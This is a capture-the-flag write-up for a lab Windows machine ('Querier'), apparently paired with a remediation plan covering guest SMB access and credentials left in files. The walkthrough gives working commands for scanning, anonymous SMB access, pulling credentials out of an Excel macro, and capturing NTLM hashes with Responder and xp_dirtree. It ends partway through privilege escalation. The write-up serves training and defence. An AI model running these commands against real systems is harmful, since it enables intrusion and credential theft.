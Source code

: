 # Security Remediation Plan

## Identified Security Vulnerabilities

The primary security vulnerabilities identified stem from two key issues:

- **Unauthorized Guest Access:** Improper configuration of access controls allowing guest users to log on to the SMB share "REPORTS."
- **Insufficient File Cleanup:** Failure of local administrators and users to properly clean up sensitive files, resulting in the retention of login credentials within Excel macros and configuration files for unattended installations.

These vulnerabilities pose a significant risk, as they could potentially expose critical authentication data to unauthorized individuals, increasing the likelihood of unauthorized access and exploitation of the network.

## Recommended Remediation Steps

To effectively remediate these issues, the following steps should be taken:

1. **System Scrubbing:** Conduct a thorough review and cleanup of the system to identify and remove any leftover configuration files associated with unattended installations. This ensures no sensitive data remains within the system.

2. **Disable Guest Access to SMB Shares:** Immediately disable guest access to the SMB share "REPORTS" to prevent unauthorized users from gaining access to sensitive information.

3. **Establish Strong Policies:** Implement and enforce strict policies for both users and administrators, explicitly prohibiting the storage of passwords in clear text locally. Educate staff on secure password management practices and implement technical controls to minimize the risk of sensitive data being exposed.

By addressing these points, the system will be better secured and the risk of unauthorized access or data breaches significantly reduced.

## Guides

<details>
  <summary>Steps to Recreate Compromise</summary>
  
# Recreating the Compromise

## Step 1: Reconnaissance

Using the following commands, I was able to get information on the open ports and then moved to see if there were any public-facing SMB shares.

nmap -sV -sS -A 10.129.156.234

Please see below for a screenshot of the output of the commands.
![nmap output](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/nmap.png)

Next, we moved to see if there were any shares available.

smbclient -N -L \\\\\\\\10.129.156.234

Please see below for a screenshot of the output of the commands.
![smb shares](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_enumeration.png)

## Step 2: Initial Access

Through the above reconnaissance we were able to identify the "Reports" share
We can test if this share allows guest logon through the following
smbclient -N \\\\\\\\10.129.156.234\\\\Reports
This will succeed and by using the "ls" command we can see that 

"Currency Volume Report.xlsm" is saved here
![smb vuln file](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_available_file.png)

use the following command to save this file locally.

get "Currency Volume Report.xlsm"

The "m" in ".xlsm" means there are macros enabled.
We will next unzip the file with the "unzip" command.
Once it is unzipped use the following command to gain access to our first set of compromised credentials.

head xl/vbaProject.bin | strings
![first creds gathered](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/Initial_creds_comp.png)

## Step 3: Privilege Escalation  

Before you move forward with this section we will need a few tools

- johntheripper
- impacket-mssqlclient
- impacket-psexec
- netcat
- python3 http.server
- responder

the first thing we will be doing is getting 2 terminal windows open. Please pay attention because we will be jumping between the 2 throughout this section.
We will track which we are in with one terminal being labeled "Term 1" and the other being "Term 2".

Term 1: Log into the system with the following command:
impacket-mssqlclient reporting:@10.129.156.234 -windows-auth

Term 2:
Use the following command to setup our listener:

responder -I [YOUR INTERFACE CONNECTED TO THE NETWORK WITH THE VULNERABLE BOX]

Information can be found using "ip addr show"

Term 1:
Next we will send the hashes from the SQL Service with the following command:

xp_dirtree '\\\\[YOUR LOCAL IP]\share\file'

</details>

<details>
  <summary>SMB Guest Access Lockdown</summary>
  
  1. **Step 1:** Disable guest access to the SMB share by adjusting the appropriate access control settings on the server.
  2. **Step 2:** Review and confirm that only authorized users and groups have access to the share.
  3. **Step 3:** Ensure the system is configured to prevent guest access in the future by disabling guest accounts or limiting permissions.
  4. **Step 4:** Document the updated access control configuration and test to confirm restrictions are enforced.

</details>

